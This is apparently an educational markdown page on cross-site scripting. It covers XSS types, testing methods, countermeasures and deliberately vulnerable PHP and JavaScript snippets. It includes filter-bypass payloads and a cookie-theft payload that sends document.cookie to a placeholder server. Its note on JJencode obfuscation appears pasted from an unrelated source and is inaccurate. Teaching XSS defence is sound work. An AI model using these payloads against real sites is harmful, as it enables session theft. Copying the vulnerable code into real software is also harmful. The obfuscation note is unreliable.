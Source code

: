 # XSS 

## Lexic

* [JavaScript](items/javascript.md)
* [Cookies](items/cookies.md)
* [Web Client](items/web_client.md)
* [Web Server](items/web_server.md)
* [XMLHttpRequest](items/xhr.md)
* [WAF](items/waf.md)
* [Proxy](items/proxy.md)
* [SOP](items/sop.md)
* [HTML](items/html.md)
* [DOM](items/dom.md)

## Nomenclature 
### XSS stands for:
Cross Site Scripting
### Exploitability
Easy / Medium / Difficult according to the context
### Impact : 
Several: `disfigurements, theft of cookie, unauthorized files access, DoS, control victim browser, ` 
# Cross Site Scripting 
-----
## Overview 
The XSS attack is an attack realized when data submit from end user is `interpretted by a browser` through [Javascript](items/javascript.md) language mostly.
It is classified among `injection attacks`.  Early on, it was categorized as **three** kinds, `stored`, `DOM based` and `reflected`. 
* These three types were defined as follows :

  * __Stored XSS__: generally occurs when server stocks submitted data from one user and then this data could be seen by others users : in a message log, in user log, in user credentials, in message form, in user cv.
 
 `Client -> Server -> Users of the site (possibily including attacker)`

  * __Reflected XSS__ : when the user supplied data is automatically replied to the same user without escapping from the server.
 
 `Client -> Server -> Client`

  * __DOM based XSS__ : when the user input is not sent to the server but is used to automatically update its `DOM`.
 
 `Client -> Client`

* This classification was quickly deprecated. To clarify it, the research community proposed two new terms to help organize the types of XSS that can occur :
  * **Server XSS**
  * **Client XSS**

### Server XSS 
---
Server XSS occurs when untrusted data from user is replied with server generated HTML. In this case, the entire vulnerability is in **server-side code**, and the browser is simply rendering the response and executing any valid script embedded within it.

### Client XSS
----
Client XSS occurs when `untrusted data` is used to update the `DOM` with an unsafe call of **client-side script**. 

## How to test for XSS 
* `Graybox` test is the best way to test for XSS. Each HTTP data input and printed after could possibly be an XSS attack vector if the input is not escapped. 
For example this code is vulnerable.
```PHP
    <?php
    echo 'Hello <h1>' .$_GET["name"]. '!</h1>';
    ?>
```
If the value of name is ```</h1><script>alert('xss');</script><h1>``` the browser will get the following answer from the server 
```HTML
    <h1>!</h1>
    <script>alert('xss');</script>
    <h1></h1>
```	


* The best way to perform `black blackbox` XSS test in server is to use a `proxy`, `dirbust` the website and `analyze` all submitted data to the server and inject some HTML characters and analyse the server responses. Submit to check :
  * HTTP headers
  * URL parameters, query string
  * Request body, form data
  * Cookies, API storage 

From all the website submits listed, test with HTML chars (html entities), and look the render in browser. If it is not well escaped (the result is not HTML special character), probably the website is XSS vulnerable.

 
---
## Examples     
### Example 1 : cookie theft 
This code will send the cookie of the user who visit the website containing this payload. 

```HTML
    <img src="nonExistImg" onerror="myFunction()"/>
    <script>function myFunction(){
	window.location = "http://myServer/?cookie".concat("=", document.cookie);
	}
    </script>
```

### Example 2 : XSS with weak js function 

```Javascript
    myFunction(){
	myImg.src = document.getElementById('imgId').value; 
	document.body.appendChild(myImg); 
	}

```
If the user sends ```'); alert('xss'); document.getElement('``` the code will become ```myImg.src = document.getElementById(''); alert('xss'); document.getElementById('imgId').value;```

### Example 3 : Bad escapping
```Javascript
   myFunction(){
	userInputEscapped = userInput.replace('<script>', ' ');
	document.appendChild(userInputEscapped);
	}

```
This function appends to the document body the user input. It replaces the user input containing <script> by " ". 
For example, if a user inputs ```<script>alert("test");</script>``` the result will be ```alert("test");``` and then will not be executed.
This kind of escapping is very unuseful. If the attacker choose ```<SCRIPT>alert('test');</SCRIPT>``` the replace method is case sensitive, so the js script will be executed. 
```Javascript
myFunction(){
	userInputEscapped = userInput.replace('"', ' '); 
	document.body.appendChild(userInputEscapped); 
	}
```
	
In this example the quote char is replaced with ' '. An attacker could attack this implementation by using ```String.fromCharCode(35,120,115,115,34);``` to get ```alert("XSS")```.

### Obfuscation
`Obfuscation` is the deliberate act of creating source or machine code that is difficult for humans to understand. Like obfuscation in natural language, it may use needlessly roundabout expressions to compose statements. Programmers may deliberately obfuscate code to conceal its purpose (security through obscurity) or its logic or implicit values embedded in it, primarily, in order to prevent tampering, deter reverse engineering, or even as a puzzle or recreational challenge for someone reading the source code. This can be done manually or by using an automated tool, the latter being the preferred technique in industry.
#### Example:
Let's assume the following script:
```JavaScript
alert("Hello, JavaScript" );
```
After an obfuscation with [JJencode](http://utf-8.jp/public/jjencode.html); it looks like:
```JavaScript
$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:
(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+
($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")
[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_]
[$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"(\\\"\\"+$.__$+$.__$+$.___+$.$$$_+
(![]+"")[$._$_]+(![]+"")[$._$_]+$._$+",\\"+$.$__+$.___+"\\"+$.__$+$.__$+$._$_+$.$_$_+"\\"+$.__$+$.$$_+$.$$_+$.$_$_+"
\\"+$.__$+$._$_+$._$$+$.$$__+"\\"+$.__$+$.$$_+$._$_+"\\"+$.__$+$.$_$+$.__$+"\\"+$.__$+$.$$_+$.___+$.__+"
\\\"\\"+$.$__+$.___+")"+"\"")())();
```
Note : Note that the **ENCODED** above does not appear in encoded files, rather it is the location where the encoded 
host code would appear. Also note that this algorithm does not work in direct mode (that is, putting it in a .js won’t 
work) because it requires a feature that was introduced in HTML 4.0. As a result, it must appear in an HTML page, and that HTML page must declare its need for HTML 4.0 or later using a declaration like this:
```<!DOCTYPE html PUBLIC “-//W3C//DTD HTML 4.0//EN”>```
The **HTML 4.0** 4.0’ string can be replaced by later versions, such as ‘HTML 4.1’ or ‘XHTML 1.0’, etc.

## Counter Measures
* **Rule #1**: **NEVER** trust client. Always perform `input validation` at every single posted by the user to the server. This includes `escaping`, `filtering` and checking everything related to data submit.
* **Rule #2**: Always update `plugins`, `modules`, `core` and all plugged packaged being used in web systems. Indeed, this contributes in limiting XSS flaws risks. This requires mastering and knowing each item used in the system/web site.
* **Rule #3**: `Disable`/`remove` unuseful features/modules cause `more one's web site embeds packages, higher is the risk of XSS vulnerability presence` mostly in CMSs.
* **Rule #4**: Think of using a [WAF](items/waf.md) and think of `deofuscation` methods. This part is developped [here](items/waf_counter_measures.md) using the **Open Source WAF** : [ModSecurity](items/modsecurity.md).
* **Rule #5**: Implement [SOP](items/sop.md) policy `properly`.
* **Rule #6**: Use [HTTPOnly](items/http_only.md) while serving session cookies.
 

 Now let's pick up some server side programming languages for more `accurate ` countermeasures implementations.
These countermeasures are : 
### Data Validation 
Data validation is the process of ensuring that the application is running with correct data. For example if the program expects an integer for user input, then any other type of data would be discared.
`Every piece of user data must be validated when it is received(at the server side)`.

### Data sanitization 
Data sanitazion focuses on manipulating the data `to make sure it is safe `by removing any unwanted bits from the data and normalizing it to the correct form. For example if the application is expecting a plain text string as user input, any html markup should be removed.

### Output escaping 
To protect the integrity of displayed/output data, `the data should be escaped` when presenting to the user. This prevent browser from applying any unintended meaning to any special sequence of characters that may be found.

-----
### PHP
[Content](items/php_counter_measures.md)


## Java  

[Content](items/java_counter_measures.md)
 
 ### C#
 -----
[Content](items/c_sharp_counter_measures.md)


 ### Node.JS
 -----
 [content](items/node_js_countermeasures.md)
 
 ### Python
 -----
 [Content](items/python_counter_measures.md)
 
